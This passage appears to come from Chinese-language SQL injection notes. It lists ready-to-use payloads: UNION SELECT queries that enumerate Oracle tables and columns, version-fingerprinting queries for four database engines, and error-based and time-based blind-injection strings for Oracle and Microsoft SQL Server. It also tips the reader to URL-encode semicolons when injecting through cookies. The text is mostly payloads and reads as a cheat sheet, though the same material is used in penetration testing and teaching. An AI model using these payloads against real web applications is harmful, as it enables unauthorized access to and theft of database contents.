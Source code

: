 如：

`union select table_name,'2' from all_tables -- a`， Oracle查询表名。从`all_tables`里查。

`union select column_name,'2' from all_tab_columns where table_name='USERS_JBZQCR' -- a`， 在`all_tab_columns`找字段名。

可以将里面的查询语句**换为数据库版本判断的语句**。进而快速准确的**得知是什么类型的数据库**。

如：

```
SELECT 'foo' WHERE 1 = (SELECT @@version)

```
1.  数据库版本判断： 
```
Oracle:		SELECT banner FROM v$version
			SELECT version FROM v$instance
Microsoft:	SELECT @@version
PostgreSQL:	SELECT version()
MySQL:		SELECT @@version

```

#### 无回显的注入（盲注），数据库类型快速确定：

延时盲注一般是新开一个语句，因此前面要用`;`分开。如果是在Cookie中这种本身就有`;`的地方。就**需要进行url编码**为`%3B`，防止服务器错误处理。

不同数据库的延时函数：

##### Oracle：

条件错误，看页面返回状态码盲注：

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE '' END FROM dual
如：
SELECT CASE WHEN (length(table_name)&gt;0) THEN TO_CHAR(1/0) ELSE '' END FROM all_tables WHERE ROWNUM = 1		//WHERE ROWNUM = 1是取第一行，取第2行则使用WHERE rownum = 2
查询逻辑等同于其他数据库的：
select table_name from all_tables limit 1

```

延时盲注：

```
';SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

```

##### Microsoft：

条件错误，看页面返回状态码盲注：

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

```
